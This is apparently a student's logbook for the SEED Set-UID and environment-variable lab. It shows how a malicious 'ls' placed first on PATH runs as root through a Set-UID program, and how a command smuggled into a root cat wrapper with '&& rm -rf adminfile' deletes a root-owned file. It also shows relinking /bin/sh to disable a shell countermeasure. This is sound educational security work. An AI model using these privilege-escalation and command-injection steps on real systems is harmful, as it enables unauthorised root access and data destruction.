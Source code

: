 # Environment Variable and Set-UID
<!-- 
## Task 1

* `printenv` or `env` show all Env. Veriables
* `printenv PWD` or `env | grep PWD` prints PWD variable
* `export PWD=/home/seed` / `unset PWD` - sets or unset variable PWD

## Task 2

* `env` variables are equal for parent process and for child process when use `fork()` function.

## Task 3

### Task 3.1

```c
execve("/usr/bin/env", argv, environ);  
```

* returns `NULL`

```c
int execve(const char *filename, char *const argv[], char *const envp[]);

extern char **environ;  # Env Veriables are not passed as a argument. 
```

### Task 3.2

```c
execve("/usr/bin/env", argv, environ);  
```

Env. Veriable are printed.

### Task 3.3

The Env Veriables must be explicetly passed.

---

Brief explanation:

* `fork()` is used to create a new process, which is a **copy of the calling** (parent) process.
* `execve()` is used to **replace the current process** with a new program.

---

## Task 4

The `system()` executes `/bin/sh -c command`. It use `execl()` to use `/bin/sh` calls `execve` passing env.var. array.

```c
# prints all env.vars.

#include <stdio.h>
#include <stdlib.h>
int main()
{   
    system("/usr/bin/env");
    return 0 ;
}
```

## Task 5

The `Set-UID` programms gain owner’s privilege (e.g. if program's owner is `root`, when anyone runs this program, the program gains the root’s privileges during its execution).

```c
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

int main()
{
    int i = 0;
    while (environ[i] != NULL) {
        printf("%s\n", environ[i]);
        i++;
    }
}
```

Compile and add set ownership to `root` and make it `Set-UID` programm.

```bash
sudo chown root foo
sudo chmod 4755 foo
```

```bash
[09/29/24]seed@VM:~/.../Labsetup$ printenv PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:.:.
[09/29/24]seed@VM:~/.../Labsetup$ printenv LD_LIBRARY_PATH
[09/29/24]seed@VM:~/.../Labsetup$
[09/29/24]seed@VM:~/.../Labsetup$ export FEUP=leic
[09/29/24]seed@VM:~/.../Labsetup$ printenv FEUP
leic
```

```bash
[09/29/24]seed@VM:~/.../Labsetup$ foo | grep PATH
WINDOWPATH=2
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:.:.
[09/29/24]seed@VM:~/.../Labsetup$ foo | grep FEUP
FEUP=leic
[09/29/24]seed@VM:~/.../Labsetup$ foo | grep LD_LIBRARY_PATH
[09/29/24]seed@VM:~/.../Labsetup$   # isso e estranho
``` -->

## Questão 1 - Task 6: The PATH Environment Variable and Set-UID Programs

First, create a malicious program named `ls.c` in a directory (e.g., `/home/seed`). 

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("Malicious code is executing...\n");
    system("whoami");
}
```
Compile the `ls.c` program using the following command:

<p align="center" justify="center">
  <img src="./assets/logbook_4/compile_bad_ls.png"/>
</p>

> * The idea here is to create a fake `ls` program that does something different from the actual `/bin/ls` command.
> * So we can replace a legitimate system programm with malicious code.

Next, create a new program that calls the system’s `ls` command, as in guid:

```c
#include <stdlib.h>

int main()
{
    system("ls");
    return 0;
}
```
> Program calls the `system()` function to execute the `ls` command, but it doesn't specify the absolute path (`/bin/ls`), the system will search for ls using the directories listed in the `PATH`

* Compile this program using the command: `gcc myls.c -o myls`
* Change the owner of the myls program to root and set it as a Set-UID program with the following commands: `sudo chown root myls`, `sudo chmod 4755 myls`.
> By using `chown` and `chmod 4755`, we can make the `myls` program a Set-UID program owned by root. This means that when a normal user execute this program, it will run with root privileges — potentially leading to a *privilege escalation*.
* Add the directory `/home/seed` to your `PATH` environment variable to ensure the system executes your malicious `ls` program instead of the standard `ls`: `export PATH=/home/seed:$PATH`
> As `system()` function runs `/bin/sh -c "<command>"` it inherits all environment variables from the calling process, including `PATH`.
* To prevent shell countermeasures when executing a Set-UID program, run the following command (provided by guid): `sudo ln -sf /bin/zsh /bin/sh`.

<p align="center" justify="center">
  <img src="./assets/logbook_4/myls.png"/>
</p>

Now, we can test `myls` program by executing:

<p align="center" justify="center">
  <img src="./assets/logbook_4/run_myls.png"/>
</p>

> The output show `root`, indicating that your malicious program has escalated privileges and is running as root.

To revert the changes run: `sudo ln -sf /bin/dash /bin/sh` and `export PATH=${PATH#/home/seed:}`.

<p align="center" justify="center">
  <img src="./assets/logbook_4/revert_changes.png"/>
</p>


<!-- ## Task 7

### Task 7.1
`mylib.c`:
```c
#include <stdio.h>
void sleep (int s)
{
  printf("I am not sleeping!\n");
}
```
```bash
gcc -fPIC -g -c mylib.c                       # Compile mylib.c into an object file.
gcc -shared -o libmylib.so.1.0.1 mylib.o -lc  # Link the object file into a shared library
export LD_PRELOAD=./libmylib.so.1.0.1
```

* `-shared`: Tells the compiler to produce a shared object (dynamic library).
* `-o libmylib.so.1.0.1`: Specifies the output file, which is the shared library named libmylib.so.1.0.1.
* `mylib.o`: This is the object file from the previous step.
* `-lc`: Links against the C standard library (libc). The -l flag tells the compiler to link with a library, and c specifies libc.
* `export LD_PRELOAD=./libmylib.so.1.0.1`: This tells the system to load libmylib.so.1.0.1 before any other libraries when running a program.

### Task 7.2

* normal user: 
```bash
[09/30/24]seed@VM:~/.../code$ myprog
I am not sleeping!
```
* normal user, but Set-UID:
```bash
[09/30/24]seed@VM:~/.../code$ myprog    # sleep 1 second
[09/30/24]seed@VM:~/.../code$
```
> because a normal user cannot override standard library functions in a Set-UID program.

* as root:
```bash
[09/30/24]seed@VM:~/.../code$ sudo su
root@VM:/home/seed/Desktop/week_4/Labsetup/code# export LD_PRELOAD=./libmylib.so.1.0.1
root@VM:/home/seed/Desktop/week_4/Labsetup/code# ./myprog 
I am not sleeping!
root@VM:/home/seed/Desktop/week_4/Labsetup/code# 
```
* user1 case:
system ignores the LD_PRELOAD, so it sleep 1 second. -->

## Questão 2 - Task 8.1: Invoking External Programs Using `system()` versus `execve()`

First, we need to compile the program and set it as a root-owned Set-UID executable.

<p align="center" justify="center">
  <img src="./assets/logbook_4/set_catall.png"/>
</p>

Next, we create the `adminfile`, which is readable, writable, and executable only by `root`:

<p align="center" justify="center">
  <img src="./assets/logbook_4/adminfile.png"/>
</p>

> As discussed in Task 6, the command `sudo ln -sf /bin/zsh /bin/sh` is necessary to acquire elevated privileges when executing as the `seed` user.

We can now test the `catall` program:

<p align="center" justify="center">
  <img src="./assets/logbook_4/runcatall.png"/>
</p>

```c
v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;

command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
sprintf(command, "%s %s", v[0], v[1]);
```

From the source code, we can observe that the program concatenates `/bin/cat` with the provided input string. This allows an attacker to inject additional commands using `&&.`

<p align="center" justify="center">
  <img src="./assets/logbook_4/delete_lazy.png"/>
</p>

> After the concatenation `sprintf(command, "%s %s", v[0], v[1]);`, the resulting command is `/bin/cat adminfile && rm -rf adminfile`. The system executes `cat`, followed by `rm`, with root privileges. As shown, the adminfile was successfully deleted.